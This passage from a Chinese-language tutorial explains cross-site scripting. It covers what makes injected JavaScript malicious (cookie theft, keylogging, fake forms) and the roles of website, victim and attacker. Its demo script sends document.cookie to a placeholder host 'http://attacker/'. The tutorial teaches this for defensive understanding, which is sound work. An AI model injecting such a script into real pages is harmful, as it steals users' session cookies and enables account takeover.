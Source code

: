 首先，能够在受害者浏览器中执行的 JavaScript 并不全都是恶意代码。毕竟，JavaScript 在非常受限制的环境中运行，该环境对用户的文件和操作系统具有极其有限的访问权限。你可以现在就打开浏览器的 JavaScript 执行环境执行任意你想执行的 JavaScript 代码, 你是不会对你的计算机造成任何损坏的。

然而，如果你发现 JavaScript 代码具有以下行为时，那很有可能它就是恶意代码：

- JavaScript 代码需要去访问用户的隐私数据，例如 `cookie`。
- JavaScript 代码可以使用 `XMLHttpRequest` 或其他方法发送 http 请求给未知的服务器。
- JavaScript 使用 DOM API 对当前页面 HTML 造成了非预期的修改。

这些事实加在一起可能会导致非常严重的安全漏洞，我们会在在下文中进行详细解释。

## 恶意代码导致的严重后果

攻击者可以通过注入恶意代码执行以下几种类型的攻击：

- `盗取 cookie 信息`： 攻击者可以通过 `document.cookie` 获取用户的 cookie 信息，然后将它们发送到自己的服务器上，从而获取其中的隐私数据，例如 `session ID` 等等。
- `记录用户键盘按键信息`： 攻击者还可以通过 `addEventListener` 注册键盘事件，然后发送用户的按键序列到自己的服务器中，按键序列中可能会记录敏感信息，例如密码和信用卡号。
- `假冒用户发送请求`： 攻击者可以通过 DOM API 插入假冒的登录表单在用户访问的页面中，设置表单的 `action` 属性为自己的服务器，然后就可以记录用户提交的隐私数据。

尽管这些攻击有很大地不同，但是它们都具有一个至关重要的相似性：由于攻击者已将代码注入到网站的页面中，因此恶意 JavaScript 是在该网站的上下文中执行的。这意味着它被视为该网站上的"正常"脚本：它可以访问该网站的受害者数据（例如 cookie），URL 栏中显示的主机名将是该网站的主机名。该脚本被认为是网站的合法部分，因此可以执行实际网站可以执行的任何操作。

这个事实突出了一个关键问题：

> 如果攻击者可以使用你的网站在另一个用户的浏览器中执行任意 JavaScript，那么你的网站及其用户的安全性已经受到了严重损害。

为了强调这一点，本教程中的一些例子中省略了恶意脚本的具体代码，只保留了 `<script>...</script>`，这是因为不论被注入的代码执行了哪种行为，只要网站中存在攻击者注入的代码，就会对用户造成损害。请你们牢记这一点！

# 第二章：XSS 攻击演示

## XSS 攻击中的角色

在我们描述 XSS 攻击的细节之前，我们首先说说参与到 XSS 攻击中的各个角色。通常来说，XSS 攻击中有三个角色：**网站**、**受害者**和**攻击者**。

- **网站**提供了用户访问的页面，在我们的例子中，网站地址是：[http://website/。](http://website/%E3%80%82)
  - **网站的数据库**用来存储将要在页面上展示的「用户输入」的数据。
- **受害者**是一个普通的互联网用户，该用户使用自己的浏览器访问网站提供的页面。
- **攻击者**是一个恶意的互联网用户, 该用户利用网站的 XSS 漏洞对普通用户发起攻击。
  - **攻击者的服务器**是被攻击者控制的 web 服务器,其唯一目的是窃取受害者的敏感信息。在我们的示例中，它位于 [http://attacker/。](http://attacker/%E3%80%82)

## 攻击场景展示

在本例中，我们假设攻击者的目的就是为了通过网站的 XSS 漏洞来获取用户的隐私数据。在受害者的浏览器解析了如下的 DOM 结构后，攻击者的目的就达到了。

```html
<script>
  window.location = "<http://attacker/?cookie=>" + document.cookie
</script>
```

该脚本将用户的浏览器导航到了另一个 URL，触发了一个地址为攻击者服务器的 HTTP 请求。该 URL 在查询参数部分包含了受害者的 `cookie` 信息。这样当请求到达攻击者的服务器之后，攻击者就可以获取到受害者的 `cookie` 信息。一旦攻击者获取到受害者的 `cookie`, 他就可以假冒成受害者发起进一步的攻击。
